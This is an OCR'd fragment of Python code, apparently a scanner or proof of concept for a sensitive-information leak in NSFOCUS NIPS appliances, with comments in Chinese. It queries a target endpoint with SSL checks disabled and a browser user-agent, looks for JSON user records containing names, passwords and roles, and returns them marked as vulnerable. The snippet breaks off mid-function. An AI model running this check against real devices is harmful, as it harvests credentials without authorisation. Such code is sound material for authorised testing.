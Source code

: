 ```
    session.mount('http://', HTTPAdapter(max_retries=retries))


    try:
        # 发送请求（忽略SSL验证）
        response = session.get(
            target_url,
            timeout=(8, 12),  # 增加超时时间
            verify=False,
            headers={
                'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)',
                'Accept': 'application/json',
                'Connection': 'keep-alive'
            }
        )


        # 检测漏洞特征
        if response.status_code == 200:
            try:
                data = response.json()


                # 验证是否为绿盟NIPS的用户配置文件
                is_nsfocus = False
                vuln_details = &#34;&#34;


                # 检测绿盟NIPS特有的数据结构
                if isinstance(data, list):
                    for user in data:
                        if 'name' in user and 'password' in user and 'role' in user:
                            is_nsfocus = True
                            vuln_details += f&#34;用户: {user.get('name')}, 角色: {user.get('role')}, &#34;


                if is_nsfocus:
                    return {
                        &#34;url&#34;: url,
                        &#34;status&#34;: &#34;VULNERABLE&#34;,
                        &#34;vulnerability&#34;: &#34;绿盟NIPS敏感信息泄露&#34;,
                        &#34;details&#34;: vuln_details.rstrip(', '),
                        &#34;data&#34;: data
                    }
                else:
                    return {
                        &#34;url&#34;: url,
                        &#34;status&#34;: &#34;ACCESSIBLE&#34;,
                        &#34;vulnerability&#34;: &#34;非绿盟系统或无效结构&#34;,
                        &#34;details&#34;: &#34;端点可访问但未检测到绿盟NIPS特征&#34;,
                        &#34;data&#34;: data
                    }


            except json.JSONDecodeError:
                # 响应不是JSON但仍返回200
                return {
                    &#34;url&#34;: url,
                    &#34;status&#34;: &#34;INVALID_RESPONSE&#34;,
                    &#34;vulnerability&#34;: &#34;非JSON响应&#34;,
                    &#34;details&#34;: f&#34;响应长度: {len(response.text)} 字符&#34;,
```